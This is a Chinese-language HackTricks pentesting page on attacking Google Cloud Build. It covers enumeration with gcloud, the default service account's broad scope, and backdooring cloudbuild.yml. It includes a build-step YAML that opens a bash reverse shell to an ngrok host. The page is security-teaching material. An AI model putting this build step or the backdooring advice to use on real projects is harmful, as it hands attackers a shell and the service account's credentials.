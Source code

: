 # GCP - Cloud Build枚举

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，可以自动化软件构建和发布流程，与源代码仓库集成，并支持各种编程语言。它允许开发人员在提供构建步骤和工作流程自定义的同时，自动构建、测试和部署代码。

每个Cloud Build触发器都与一个Cloud仓库相关联，或直接与外部仓库（Github、Bitbucket或Gitlab）连接。

可以配置Cloud Build以**要求构建执行的批准**（默认情况下禁用）。

**服务帐号具有`cloud-platform`范围的权限**，因此它可以使用所有权限。如果**未指定SA**（例如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

{% hint style="success" %}
我无法找到任何从这里或Cloud仓库窃取Github/Bitbucket令牌的方法，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，而客户端无法访问Github。
{% endhint %}

### 存储

有时，Cloud Build会**生成一个新的存储来存储触发器的文件**。例如，在GCP提供的示例中就会发生这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
创建了一个名为[security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)的存储桶，用于存储要使用的`.tgz`文件。

### 获取shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可以在构建配置和日志中找到**敏感信息**。
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## 提权

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经身份验证的访问

### cloudbuild.yml

如果您获得了对包含名为**`cloudbuild.yml`**的文件的写访问权限，您可以在该文件中**植入后门**，该文件指定了在Cloud Build中将要执行的**命令**，从而窃取机密信息，破坏操作以及危及**Cloud Build服务帐户**。

{% hint style="info" %}
请注意，GCP有一个选项，允许管理员通过“评论控制”来控制来自外部PR的构建系统的执行。评论控制是一个功能，协作者/项目所有者**需要在评论中添加“/gcbrun”来触发构建**，使用此功能本质上可以防止任何人在互联网上触发您的构建系统。
{% endhint %}

有关一些相关信息，您可以查看关于如何攻击Github Actions的页面（类似于此）：

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
